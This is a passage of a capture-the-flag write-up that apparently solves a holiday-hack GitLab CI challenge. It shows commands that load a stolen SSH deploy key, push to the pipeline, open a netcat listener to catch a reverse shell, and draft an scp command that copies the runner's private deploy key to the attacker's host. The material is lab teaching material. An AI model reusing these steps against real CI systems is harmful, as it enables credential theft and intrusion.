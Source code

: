 We are prompted for a username to GitLab, so we need that key pair we stole earlier. 
```
grinchum-land:~/wordpress.flag.net.internal# eval $(ssh-agent -s)
Agent pid 371
grinchum-land:~/wordpress.flag.net.internal# chmod 600 /root/.ssh/deploy
grinchum-land:~/wordpress.flag.net.internal# ssh-add ~/.ssh/deploy
Identity added: /root/.ssh/deploy (sporx@kringlecon.com)
```
Then we can set the `git remote origin` to SSH instead of the challenge-provided HTTP URL:
```
grinchum-land:~/wordpress.flag.net.internal# git remote set-url origin ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
```
And we are able to push:
```
grinchum-land:~/wordpress.flag.net.internal# git push
The authenticity of host 'gitlab.flag.net.internal (172.18.0.150)' can't be established.
ED25519 key fingerprint is SHA256:jW9axa8onAWH+31D5iHA2BYliy2AfsFNaqomfCzb2vg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'gitlab.flag.net.internal' (ED25519) to the list of known hosts.
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 2 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 373 bytes | 373.00 KiB/s, done.
Total 3 (delta 2), reused 0 (delta 0), pack-reused 0
To ssh://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
   37b5d57..1b6ca61  main -> main
```
On my system, I then can open up my listener:
```
grinchum-land:~/wordpress.flag.net.internal# nc -nlvvp 1337
```
No response though. Maybe we can alter our payload to something simpler.

Maybe there’s a way to steal that private deploy key? Then I could just SSH into the server directly. The key is on the gitlab runner though. I should be able to pass my ssh key pair (my machine) to the pipeline as variables, and alter my pipeline script to use the vars. Command could be:
```
scp -i </path/to/my/key/pair> /etc/gitlab-runner/hhc22-wordpress-deploy myaccount@172.18.0.99:/tmp/ -P 2222
```
To try that method, I will first need to create a key pair for our original non-root account - samways. 
```
grinchum-land:~$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/samways/.ssh/id_rsa): 
Created directory '/home/samways/.ssh'.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/samways/.ssh/id_rsa
Your public key has been saved in /home/samways/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:/TsnF1unhrm2jL5JF16Pszts8Nj/9Din0RQjDyuCSbw samways@grinchum-land.flag.net.internal
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|      .          |
|       o     o o |
|      . +.    = o|
|       ES........|
|          .ooo.=o|
|          . +O+==|
|         . =B.&*o|
```